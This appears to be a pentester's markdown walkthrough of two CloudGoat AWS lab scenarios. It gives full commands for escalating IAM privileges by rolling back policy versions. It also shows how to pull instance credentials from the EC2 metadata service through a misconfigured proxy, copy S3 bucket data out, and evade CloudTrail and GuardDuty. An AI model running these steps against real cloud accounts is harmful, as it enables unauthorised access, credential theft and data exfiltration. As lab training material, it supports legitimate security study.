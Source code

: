 ```yaml
---
title: AWS Pentesting - CloudGoat
author: nirajkharel
date: 2023-01-21 20:55:00 +0800
categories: [Cloud Pentesting, AWS]
tags: [Cloud Pentesting, AWS Pentesting]
---
```


# cloudGoatAWS

## Configure the profile
-  `aws configure --profile <profile-name>`

## IAM Privilege Escalation by Rollback
- **Objective: Enumerate IAM policy versions and roll back to a previous version with higher privileges.**
- Which means there might be different versions of the IAM privileges/policies. If we are able to enumerate all the versions and if the current policies we are on has an privileges to set the default policy version, then we sould be able to set that high privileged version as our default version and can escalate the current privileges.
- Get a username (whoami)
  - `aws sts get-caller-identity` - This will give you your UserID, Account and ARN.
  - Or, `aws iam get-user-profile <profile-name>`
  - We can find a username on ARN.
- View the managed policies
  - `aws iam list-attached-user-policies --policy <policy-name> --username <username-from-arn>` 
  - This will give a policy name which we are currently operating on.
- List the versions.
  - `aws iam list-policy-versions --policy-arn <policy-arn-from-above>`
  - This will list the versions attached to the policies. We can also find a default policy for this user. In this case it's on version 1.
- Enumerate default Policy
  - Since we are on default policy, we need to enumerate at first what the version 1 is privileged to do.
  - `aws iam get-policy-version --policy-arn <policy-arn-from-above> --version-id v1`
  - We can see that it has `IAM:SetDefaultPolicyVersion` policy attached which means we can change the versions for the user.
- Enumerate versions
  - Enumerate the policies attached with each versions and find a version which has a highest privilege
  - `aws iam get-policy-version --policy-arn <raynor policy arn> --version-id v1` - Replace v1 with v2,v3,v4,v5
  - We can find the version 3 has a highest privilege can perform any action on any resource.
- Set the Default Policy
  - Now we know the version with highest privilege, we can set it to be our default policy
  - `aws iam set-default-policy-version --policy-arn <policy-arn-from-above> --version-id v3`
- Confirmation
  - List all instances associated with account
    - `aws ec2 describe instances`
 - Get an administrative access
    - `aws iam attach-user-policy --policy-arn arn:aws:iam:ACCOUNT-ID:aws:policy/AdministratorAccess --user-name <username-from-above> --profile <profile-name>`
  
## cloud_breach_s3
- **Objective** - Starting as an anonymous outsider with no access or privileges, exploit a misconfigured reverse-proxy server to query the EC2 metadata service and acquire instance profile keys. Then, use those keys to discover, access, and exfiltrate sensitive data from an S3 bucket.
- Deploy the cloud
- Query EC2 Metadata
  - `curl <EC2-IP>`
  - Result: This server is configured to proxy requests to the EC2 metadata service. Please  modify your request's 'host' header and try again.
  - Which means, we need to add a custom host header which is a magic IP address associted with metadata service.
  - `curl <EC2-IP> -H 'host: 169.254.169.254'`
- Gain a token
  - `curl <EC2-IP>/lates/meta-data/iam -H 'host: 169.254.169.254'` - This contains security credentials
  - `curl <EC2-IP>/lates/meta-data/iam/security-credentials -H 'host: 169.254.169.254'` - It will provide a role
  - `curl <EC2-IP>/lates/meta-data/iam/security-credentials/role -H 'host: 169.254.169.254'` - The output is access key, secret access key and token for this role.
- Configure a profile
  - `aws configure --profile <profile-name>`
- Configure session token
  - `vim ~/.aws/credentials`
  - Paste `aws_session_token = token .......`
- Perform AWS Commands
  - We can now perform commands
  - `aws sts get-caller-identity --profile <profile-name>`
  - List the s3 buckets - `aws s3 ls –profile <profile-name>`
  - Copy the files from the s3 bucket to a new folder - `aws s3 sync s3://<insert bucket name> ./<new folder name> –profile <profile-name>`
- But while executing the commands, it gets alerted because we are running the commands from our pentest distro. It can be alerted by cloudtrail and guard duty.
- We can get around that when we will be able to execute a command by requesting it through private instance.
- This can be done with a tool called [SneakyEndpoints](https://github.com/Frichetten/SneakyEndpoints)
- SneakyEndpoints
  - `git clone https://github.com/Frichetten/SneakyEndpoints`
  - `cd SneakyEndpoints`
  - `terraform init`
  - `terraform apply`
- Start a session
  - `aws ssm start-session --target <host_id>` - host_id is gained from `terraform apply` command above.
# References
- https://resources.infosecinstitute.com/topic/cloudgoat-walkthrough-series-iam-privilege-escalation-by-rollback/
- https://makosecblog.com/aws-pentest/privesc-by-rollback/
